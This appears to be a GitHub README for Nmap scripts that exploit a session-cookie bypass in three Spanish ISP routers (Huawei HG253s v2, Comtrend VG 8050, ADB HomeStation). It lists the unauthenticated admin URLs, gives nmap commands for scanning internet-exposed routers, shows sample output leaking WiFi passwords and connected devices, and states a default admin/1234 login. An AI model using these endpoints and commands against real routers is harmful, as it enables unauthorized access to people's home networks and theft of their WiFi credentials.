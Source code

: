 # What is it?
Some NSE scripts to search information from routers.

The author of this scripts are [VicenDominguez](https://www.github.com/vicendominguez/). He found the 0-Day on Huawei I only modified for two others.

The author of this script is not responsible for its use.

#Huawei HG253s v2
Vodafone-Spain is starting to rent a new Huawei HG253v2 router to the spanish costumers. This new router is coming with a new firmware version.

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://IPhtml_253s/api/ntwk/WlanBasic
* http://IP/html_253s/api/system/diagnose_internet
* http://IP/html_253s/api/system/hostinfo?type=ethhost
* http://IP/html_253s/api/system/hostinfo?type=guesthost
* http://IP/html_253s/api/system/hostinfo?type=homehost
* http://IP/html_253s/api/system/hostinfo?type=wifihost
* http://IP/html_253s/api/system/wizardcfg

##Usage
```
nmap --script=http-enum-vodafone-hua253s.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-vodafone-hua253s: 
|   SSID: vodafone070 (14:b9:XX:XX:XX:XX) Password: (AES) 123456
|   Device: android-246e67b281179679-Wireless MAC: 48:5A:3F:XX:XX:XX IP: 192.168.0.XX

```
#Comtrend VG 8050
Telefonica-Spain is starting to rent a new Comtrend VG 8050 router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [DaniLabs](https://www.github.com/danilabs/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://IP/getWifiInfo.jx
* http://IP/listDevices.jx
* http://IP/infoApplications.jx

##Usage
```
nmap --script=http-enum-telefonica-comtrend-vg-8050.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-telefonica-comtrend-vg-8050: 
|   SSID: MOVISTAR_XXX
|   Cipher Algorithm: WPA
|   Password WEP: 
|   Password WPA: gTU3NkXE44RYjuM2RrxM
|   Password WPA2: 
|   Device: 192.168.0.X MAC: 5c:97:X:X:X:X IP: 192.168.0.X

```
#ADB P.DGA4001N a.k.a HomeStation
Telefonica-Spain is starting to rent a new ADB P.DGA4001N router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [DaniLabs](https://www.github.com/danilabs/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://IP/getWifiInfo.jx
* http://IP/listDevices.jx
* http://IP/infoApplications.jx

Add the credentials by default are admin / 1234
##Usage
```
nmap --script=http-enum-telefonica-homestation.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-telefonica-homestation: 
|   SSID: WLAN_HOME
|   Cipher Algorithm: WEP
|   Device: IphonePedro MAC: A8:8E:24:X:X:X IP: 192.168.1.X

```
